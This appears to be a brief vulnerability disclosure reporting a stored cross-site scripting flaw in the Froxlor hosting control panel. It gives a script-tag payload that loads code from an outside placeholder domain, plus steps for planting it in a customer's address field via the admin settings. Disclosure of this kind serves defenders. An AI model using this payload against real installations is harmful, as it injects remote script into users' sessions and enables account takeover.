 # Description
The server administration software for your needs. Developed by experienced server administrators, this panel simplifies the effort of managing your hosting platform.
this pakage is vulnerable for xss

# Payload USED
```
<script src=https://domain></script>
```
# POC
* used https://demo.froxlor.org/ testing
* login to admin account
* In customers account click on settings and update the address column with the payload and save the updates made.
* then just login to customer ac
* XSS triggered.
# PermaLinks
[gdive](https://drive.google.com/drive/folders/1D2wIlsZGDnhFdm2W51fDrDwogkHI7kBd?usp=sharing)
